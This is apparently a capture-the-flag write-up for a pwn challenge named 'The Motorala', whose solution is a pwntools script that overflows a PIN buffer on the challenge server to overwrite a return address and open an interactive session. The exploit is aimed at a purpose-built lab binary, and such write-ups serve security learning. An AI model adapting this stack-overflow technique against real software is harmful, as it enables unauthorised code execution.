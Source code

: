 ##  The Motorala

Category: pwn

### Description

i bet u wont guess my pin

Author: Elma

### Solution

Scripts:

```py
from pwn import *

#p = process("./chall")
p = remote("challs.nusgreyhats.org", 30211)

payload =  b'a' * 0x30  # size of attempt[0x30]
payload += b'b' * 4     # size of count
payload += b'cccccccceeeeeeeeoooo' # TODO: Still not sure why need this part
# The reason why I know need extra 20 characters is by using GDB and inspect the stack before and after user input
payload += p64(0x0000000000401393)

p.recvuntil(b"PIN:")
p.sendline(b'LOL')

p.recvuntil(b"PIN:")
p.sendline(b'LOL')

p.recvuntil(b"PIN:")
p.sendline(b'LOL')

p.recvuntil(b"PIN:")
p.sendline(b'LOL')

p.recvuntil(b'PIN:')
p.sendline(payload)

p.interactive()
```

